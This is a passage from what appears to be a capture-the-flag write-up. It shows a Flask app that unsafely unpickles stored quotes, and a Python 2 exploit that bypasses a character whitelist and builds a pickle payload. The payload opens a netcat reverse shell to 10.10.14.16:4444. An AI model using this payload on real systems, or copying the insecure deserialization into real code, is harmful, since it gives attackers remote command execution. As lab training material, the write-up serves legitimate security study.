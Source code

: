 ```python
@app.route("/submit", methods=["GET", "POST"])
def submit():
    error = None
    success = None

    if request.method == "POST":
        try:
            char = request.form["character"]
            quote = request.form["quote"]
            if not char or not quote:
                error = True
            elif not any(c.lower() in char.lower() for c in WHITELIST):
                error = True
            else:
                # TODO - Pickle into dictionary instead, `check` is ready
                p_id = md5(char + quote).hexdigest()
                outfile = open("/tmp/" + p_id + ".p", "wb")
		outfile.write(char + quote)
		outfile.close()
	        success = True
        except Exception as ex:
            error = True

    return render_template("submit.html", error=error, success=success)

@app.route("/check", methods=["POST"])
def check():
    path = "/tmp/" + request.form["id"] + ".p"
    data = open(path, "rb").read()

    if "p1" in data:
        item = cPickle.loads(data)
    else:
        item = data

    return "Still reviewing: " + item
```

Pickling is used here, and it might be exploitable later. If `p1` is in `data`, then it passes it to the `cPickle.loads()` function. The `cPickle` function used actually allows for RCE.&#x20;

Based on online scripts, we have to create a Python class using the `__reduce__` with our command, and then pickle the content using the `cPickle` library. Afterwards, we need to send a POST request to `/check` with the `id` parameter set to the MD5 hash of our character and payload combined.

To bypass the character check, we just need to include a Simpsons character as a substring of the actual thing. &#x20;

The website code uses `python2`, so I also used `python2` to match:

```python
import cPickle
import os
import requests
from hashlib import md5

class PickleRce(object):
    def __reduce__(self):
        return (os.system,('homer*; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.16 4444 >/tmp/f',))

character, quote = cPickle.dumps(PickleRce()).split('*')
print(cPickle.dumps(PickleRce()))
checksum = md5(character + quote).hexdigest()

```
